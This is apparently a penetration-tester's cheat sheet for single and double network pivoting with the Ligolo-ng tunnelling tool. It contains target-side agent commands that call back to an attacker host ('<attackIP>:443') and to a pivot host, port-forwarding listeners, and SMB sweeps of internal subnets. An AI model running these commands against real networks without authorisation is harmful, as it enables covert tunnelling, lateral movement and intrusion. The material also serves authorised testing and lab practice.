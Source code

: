 ```yaml
---
tags:
  - AD
---
```

## LigoloNG
---
[https://github.com/Nicocha30/ligolo-ng](https://github.com/Nicocha30/ligolo-ng)

### **Single pivot**

**Attack host:**
```bash
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up
```
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```
add route to new subnet
```bash
sudo ip route add 172.16.139.0/24 dev ligolo
```
**Target:**
```
agent.exe -connect <attackIP>:443 -ignore-cert
```
**Attack host:**
select session
```
session
```
add listeners
```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:81
listener_add --addr 0.0.0.0:8082 --to 127.0.0.1:82
listener_add --addr 0.0.0.0:8083 --to 127.0.0.1:83
listener_add --addr 0.0.0.0:8084 --to 127.0.0.1:84
```
start tunnel
```bash
start
```
### **Double Pivot**
**Attack host:**
```bash
sudo ip tuntap add user kali mode tun double ; sudo ip link set double up
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up
```
```
./proxy -selfcert -laddr 0.0.0.0:443
```
**Target:**
First pivot callback
```bash
agent.exe -connect <attackIP>:443 -ignore-cert
```
**Attack host:**
Add routes
```bash
sudo ip route add 172.16.139.0/24 dev ligolo
sudo ip route add 172.16.210.0/24 dev double
```
select session
```bash
session
```
add listener for second pivot
```bash
listener_add --addr 0.0.0.0:139 --to 127.0.0.1:443
```
add normal listeners
```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:81
listener_add --addr 0.0.0.0:8082 --to 127.0.0.1:82
listener_add --addr 0.0.0.0:8083 --to 127.0.0.1:83
listener_add --addr 0.0.0.0:8084 --to 127.0.0.1:84
```
start first tunnel
```bash
start
```
**Second target:**
Call back to first pivot host from second
```bash
agent.exe -connect <targetONE>:139 -ignore-cert
```
add listeners to second host
```bash
listener_add --addr 0.0.0.0:5050 --to 127.0.0.1:50
listener_add --addr 0.0.0.0:5051 --to 127.0.0.1:51
listener_add --addr 0.0.0.0:5052 --to 127.0.0.1:52
listener_add --addr 0.0.0.0:5053 --to 127.0.0.1:53
listener_add --addr 0.0.0.0:5054 --to 127.0.0.1:54
```
start second tunnell
```bash
start --tun double
```
**Verify access**
```bash
nxc smb 172.16.139.10/24 
nxc smb 172.16.210.0/24
```